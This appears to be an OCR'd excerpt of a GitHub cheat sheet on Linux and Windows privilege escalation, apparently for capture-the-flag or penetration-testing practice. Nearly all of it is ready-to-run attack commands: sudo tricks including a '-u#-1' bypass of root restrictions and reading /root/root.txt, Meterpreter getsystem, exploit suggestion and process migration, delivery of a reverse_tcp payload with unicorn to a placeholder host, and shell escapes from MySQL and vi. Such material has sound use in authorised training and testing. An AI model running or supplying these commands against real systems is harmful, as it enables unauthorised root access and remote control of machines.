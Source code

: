 Common exploit patterns:

```bash
sudo -u <target_user> /bin/bash
sudo cat /root/root.txt
sudo -u#-1 /bin/bash  # Bypass !root restrictions
```

---

### 🪟 Windows Privilege Escalation

**In Meterpreter:**
```bash
getsystem
background
use post/multi/recon/local_exploit_suggestor
set session 1
run
```

🔍 Other Tools:
- [Sherlock (Privilege Suggestor)](https://github.com/rasta-mouse/Sherlock)
- [FuzzySec PrivEsc Guide](https://www.fuzzysecurity.com/tutorials/16.html)

🧬 Migrate Process:
```bash
migrate <PID>
```

**Shell Delivery:**
```bash
/opt/unicorn/unicorn.py windows/meterpreter/reverse_tcp <HOST_IP> 3333
msfconsole -r unicorn.rc
```

---

### 🛢️ MySQL & VIM Privilege Escalation

**MySQL Shell:**
```sql
mysql> \! /bin/sh
```

**VIM Shell:**
```bash
sudo /usr/bin/vi /file/path
# Press ESC, then type:
:!/bin/bash
```

---

### ⏱️ Cron Job Exploitation

Monitor system jobs:
```bash
tail -f /var/log/syslog
```
